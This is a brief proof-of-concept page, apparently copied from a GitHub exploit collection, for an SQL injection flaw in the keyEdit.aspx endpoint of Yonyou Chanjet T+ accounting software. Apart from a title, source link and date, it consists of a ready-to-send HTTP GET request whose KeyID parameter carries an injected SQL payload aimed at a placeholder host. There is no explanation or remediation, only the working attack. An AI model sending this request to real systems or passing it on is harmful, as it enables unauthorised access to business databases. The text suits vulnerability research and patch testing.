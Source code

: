 # TPlus_keyEdit.aspx_sqli
from : https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8B%E7%95%85%E6%8D%B7%E9%80%9ATPlus-keyEdit.aspx%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.5.13 @2 

```
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xxx.xxx.xxx
Accept-Charset: utf-8
```
